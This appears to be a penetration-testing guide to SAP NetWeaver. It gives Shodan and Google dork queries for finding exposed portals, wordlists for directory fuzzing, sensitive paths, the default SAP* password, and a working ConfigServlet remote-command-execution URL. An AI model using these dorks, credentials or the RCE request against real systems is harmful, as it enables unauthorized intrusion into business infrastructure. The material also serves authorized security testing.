 # SAP Netweaver

## Introduction

SAP system consists of a number of fully integrated modules, which covers virtually every aspect of business management.

The product is marketed as a service-oriented architecture for enterprise application integration.

It can be used for custom development and integration with other applications and systems, and is built primarily using the ABAP programming language, but also uses C, C++, and Java.

It can also be extended with, and interoperate with, technologies such as Microsoft .NET, Java EE, and IBM WebSphere.

***

## Discovery

You can use Shodan and Google Dorks to check for files, subdomains, and juicy information if the application is Internet-facing or public:

```
inurl:50000/irj/portal
inurl:IciEventService/IciEventConf
inurl:/wsnavigator/jsps/test.jsp
inurl:/irj/go/km/docs/
https://www.shodan.io/search?query=sap+portal
https://www.shodan.io/search?query=SAP+Netweaver
https://www.shodan.io/search?query=SAP+J2EE+Engine
```



You can also use `gobuster`, `ffuf` and `BurpSuiteIntuder` to scan for files and directory using the following wordlists:



* [https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/sap.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/sap.txt)
* [https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/URLs/urls-SAP.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/URLs/urls-SAP.txt)
* [https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/CMS/SAP.fuzz.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/CMS/SAP.fuzz.txt)
* [https://raw.githubusercontent.com/chudyPB/sap-wordlist/master/sap-ultimate.txt](https://raw.githubusercontent.com/chudyPB/sap-wordlist/master/sap-ultimate.txt)

***

A typical SAP logon screen ([http://SAP:50000/irj/portal](http://sap:50000/irj/portal)) looks like the following:

<figure><img src="../../.gitbook/assets/sapnetweaver.png" alt=""><figcaption><p>SAP Login Page</p></figcaption></figure>

***

## Potential information goldmine paths

* Try `/irj/go/km/navigation/` for possible `directory listing`\
  or `authentication bypass`
* [http://SAP/sap/public/info](http://sap/sap/public/info) contains some juicy information

***

## Default Credentials

Each SAP instance is divided into clients.\
Each one has a user SAP\*, the application’s equivalent of “root”.\
Upon initial creation, this user SAP\* gets a default password: “060719992”

***

## Known RCE Exploit

Try to use some known exploits (check out Exploit-DB) or attacks like the [SAP ConfigServlet Remote Code Execution](https://www.exploit-db.com/exploits/24963):

```
http://example.com:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=uname -a
```
